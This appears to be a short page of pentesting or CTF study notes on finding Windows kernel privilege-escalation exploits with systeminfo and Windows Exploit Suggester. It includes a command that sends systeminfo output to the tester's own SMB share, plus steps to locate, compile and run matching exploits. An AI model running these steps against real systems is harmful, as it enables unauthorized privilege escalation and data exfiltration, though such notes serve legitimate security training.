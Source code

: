 - - -
###### To find kernal Exploit vulnerability :

-  Check the windows version /patch level ( systeminfo ).
-  Find maching exploits (Google, ExploitDB, GitHub ).
- Compile and Run.

**Or** **use <u>windows-exploit-suggester.</u>**

##### To run Windows Exploit Suggester :

```powershell
systeminfo > \\our-ip\systeminfo.txt
```

```python
python Windows-Exploit-Suggester.py /path/to/systeminfo.txt -i “Elevation of Privilege” --exploit-only > wes.results.txt
```

Now google the POC...

- - -
